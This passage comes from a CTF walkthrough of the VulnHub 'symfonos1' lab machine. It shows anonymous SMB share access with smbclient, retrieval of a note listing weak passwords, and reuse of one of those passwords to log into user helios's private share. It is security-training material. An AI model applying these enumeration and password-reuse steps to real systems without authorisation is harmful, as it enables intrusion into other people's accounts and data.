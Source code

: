 ```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/symfonos1]
└─$ smbclient  //172.16.109.132/anonymous -N 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jun 29 02:14:49 2019
  ..                                  D        0  Sat Jun 29 02:12:15 2019
  attention.txt                       N      154  Sat Jun 29 02:14:49 2019

                19994224 blocks of size 1024. 17040344 blocks available
smb: \> get attention.txt
getting file \attention.txt of size 154 as attention.txt (5.0 KiloBytes/sec) (average 5.0 KiloBytes/sec)
smb: \> 
```

Seems we got a txt file let download it to our attacking machine. And see what we have.

```
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/symfonos1]
└─$ cat attention.txt  

Can users please stop using passwords like 'epidioko', 'qwerty' and 'baseball'! 

Next person I find using one of these passwords will be fired!

-Zeus
```

Now that is interesting if i remember clearly we still have a share owned by `helios` let try using the password we got now to see if user `helios` also fall victim of using weak password.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/symfonos1]
└─$ smbclient -L //172.16.109.132/ -U helios
Enter WORKGROUP\helios's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        helios          Disk      Helios personal share
        anonymous       Disk      
        IPC$            IPC       IPC Service (Samba 4.5.16-Debian)
SMB1 disabled -- no workgroup available
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/symfonos1]
└─$ smbclient -L //172.16.109.132/helios -U helios
Enter WORKGROUP\helios's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        helios          Disk      Helios personal share
        anonymous       Disk      
        IPC$            IPC       IPC Service (Samba 4.5.16-Debian)
SMB1 disabled -- no workgroup available
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/symfonos1]
└─$ smbclient  //172.16.109.132/helios -U helios 
Enter WORKGROUP\helios's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jun 29 01:32:05 2019
  ..                                  D        0  Wed Mar  2 19:52:03 2022
  research.txt                        A      432  Sat Jun 29 01:32:05 2019
```